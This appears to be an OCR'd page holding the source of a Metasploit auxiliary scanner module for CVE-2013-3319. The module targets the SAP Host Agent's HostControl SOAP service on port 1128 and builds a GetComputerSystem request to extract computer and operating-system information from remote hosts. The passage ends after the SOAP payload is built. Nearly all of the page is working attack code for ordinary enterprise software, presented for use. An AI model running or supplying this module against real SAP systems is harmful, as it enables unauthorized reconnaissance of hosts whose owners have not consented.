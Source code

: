EXP
---

    require 'msf/core'
    require 'rexml/document'

    class Metasploit4 < Msf::Auxiliary

        include Msf::Exploit::Remote::HttpClient
        include Msf::Auxiliary::Report
        include Msf::Auxiliary::Scanner

        def initialize
            super(
                'Name'         => 'SAP Host Agent Information Disclosure',
                'Description'  => %q{
                    This module attempts to retrieve Computer and OS info from Host Agent
    through the SAP HostControl service
                    },
                'References'   =>
                    [
                        # General
                        [ 'CVE', '2013-3319'],
                        [ 'URL', 'https://service.sap.com/sap/support/notes/1816536' ],
                        [ 'URL', 'http://labs.integrity.pt/advisories/cve-2013-3319/']
                    ],
                'Author'       =>
                    [
                        'Bruno Morisson <bm[at]integrity.pt>'
                    ],
                'License'      => MSF_LICENSE
            )

            register_options(
                [
                    Opt::RPORT(1128)
                ], self.class)

            register_autofilter_ports([ 1128 ])
            deregister_options('RHOST')
            deregister_options('VHOST')

        end

        def run_host(rhost)

            rport = datastore['RPORT']

            print_status("Connecting to SAP Host Control SOAP Interface on #{rhost}:#{rport}")

            success = false
            fault = false

            data = '<?xml version="1.0" encoding="utf-8"?>'
            data << '<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"'
            data << 'xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xs="http://www.w3.org/2001/XMLSchema">'
            data << '<SOAP-ENV:Header><sapsess:Session xlmns:sapsess="http://www.sap.com/webas/630/soap/features/session/">'
            data << '<enableSession>true</enableSession></sapsess:Session></SOAP-ENV:Header><SOAP-ENV:Body>'
            data << '<ns1:GetComputerSystem xmlns:ns1="urn:SAPHostControl"><aArguments><item>'
            data << '<mKey>provider</mKey><mValue>saposcol</mValue></item></aArguments></ns1:GetComputerSystem>'
            data << "</SOAP-ENV:Body></SOAP-ENV:Envelope>\r\n\r\n"
